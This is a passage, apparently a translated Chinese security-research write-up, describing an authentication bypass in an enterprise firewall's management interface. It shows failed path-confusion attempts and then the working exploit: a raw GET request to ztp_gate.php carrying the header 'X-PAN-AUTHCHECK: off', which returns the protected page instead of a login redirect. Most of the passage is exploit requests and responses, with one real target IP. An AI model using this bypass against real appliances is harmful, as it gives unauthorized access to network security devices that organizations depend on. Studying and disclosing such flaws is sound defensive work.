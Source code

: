 经过一些快速推断，看起来在以前未修补的版本中，Nginx 之前没有在此指令内正确设置身份验证标头 - 这是否允许我们滥用 proxypass 声明来发送没有配置 HTTP 请求标头 X-pan-Authcheck 的请求到所谓的“受保护”的端点？  
  
利用我们对 Nginx proxypass 滥用案例的了解，我们思考了每个人都信任的保护其通信和内部网络安全的企业级安全设备的现状，并测试了各种变体，看看是否有任何一种可以让我们通过，例如：  
```
/php/ztp_gate.php%3f.js.map
/php/ztp_gate.php?.js.map
/php/ztp_gate.php#.js.map
/php/ztp_gate.php/.js.map
```  
  
这些都不起作用：  
```
GET /php/ztp_gate.php/.js.map HTTP/1.1
Host: 18.142.51.124

HTTP/1.1 302 Found
Date: Tue, 19 Nov 2024 10:04:27 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 0
Connection: keep-alive
Set-Cookie: PHPSESSID=bu82e0mthttbaqbp6djh0lgpd9; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /php/login.php?
Cache-Control: no-cache; no-store
```  
  
我们有点闷闷不乐，直到头顶上出现了一道明亮的光。  
  
脚本uiEnvSetup.php要求HTTP_X_PAN_AUTHCHECK将值设置为off，这是之前被 Nginx 阻止的。也许我们可以直接提供它？  
  
稍微开明一点——我们再次尝试：  
```
GET /php/ztp_gate.php/.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off

HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 10:05:08 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 4635
Connection: keep-alive
Set-Cookie: PHPSESSID=m1sea0p2n2p89kncqked9sd2p1; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'self'; connect-src 'self' data.pendo.io app.pendo.io pendo-static-5839728945463296.storage.googleapis.com; script-src 'self' 'unsafe-eval' 'unsafe-inline' app.pendo.io pendo-io-static.storage.googleapis.com cdn.pendo.io pendo-static-5839728945463296.storage.googleapis.com data.pendo.io; style-src 'self' 'unsafe-inline' app.pendo.io cdn.pendo.io pendo-static-5839728945463296.storage.googleapis.com; img-src 'self' data: cdn.pendo.io app.pendo.io pendo-static-5839728945463296.storage.googleapis.com data.pendo.io; frame-ancestors 'self' app.pendo.io; child-src 'self' app.pendo.io; form-action 'self' 'unsafe-eval' 'unsafe-inline'
Strict-Transport-Security: max-age=31536000
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache; no-store

<html>

<head>
    <title>Zero Touch Provisioning</title>
```  
  